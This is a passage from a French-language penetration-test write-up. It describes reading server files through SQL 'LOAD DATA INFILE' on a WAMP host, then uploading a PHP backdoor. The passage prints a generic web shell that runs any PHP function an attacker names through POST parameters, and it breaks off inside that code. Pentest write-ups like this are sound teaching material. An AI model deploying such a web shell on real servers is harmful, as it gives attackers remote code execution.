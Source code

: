 Les chemins présents en base doivent correspondre en fait à une ancienne installation.  

On sait dorénavant que le serveur fonctionne bien sous Windows avec [WAMP](http://www.wampserver.com/). Armé en plus de la version d'Apache on retrouve facilement [sur le web](http://forum.wampserver.com/read.php?2,119754) les paths des fichiers de configuration pouvant nous aider (config Apache, MySQL et WAMP).  

Divulgation de fichiers
-----------------------

Finalement le `LOAD DATA INFILE` fonctionne et nous permet de trouver l'emplacement des fichiers uploadés en récupérant le code du script PHP d'upload.  

![evil.corp php upload script code](/assets/img/pentest01/evilcorp_upload_script.png)

Upload de fichiers
------------------

On uploade aussitôt une backdoor PHP générique qui exploite la possibilité d'instancier une fonction en PHP (une technique couramment utilisée, déjà vu dans les scripts que laissent des pirates après une intrusion).  

```php
<?php                                                                                                                  
$func = isset($_POST["f"]) ? $_POST["f"] : "";                                                                         
$arg1 = isset($_POST["a"]) ? $_POST["a"] : "";                                                                         
$arg2 = isset($_POST["b"]) ? $_POST["b"] : "";                                                                         
$ret_func = isset($_POST["rf"]) ? $_POST["rf"] : "";                                                                   

$ret_val = "";                                                                                                         
if ($func != "") {                                                                                                     
    if ($arg1 != "" && $arg2 != "") {                                                                                  
        $ret_val = $func($arg1, $arg2);                                                                                
    } elseif ($arg1 != "") {                                                                                           
        $ret_val = $func($arg1);                                                                                       
    } else {                                                                                                           
        $ret_val = $func();                                                                                            
    }                                                                                                                  
}                                                                                                                      

if ($ret_func != "") {                                                                                                 
```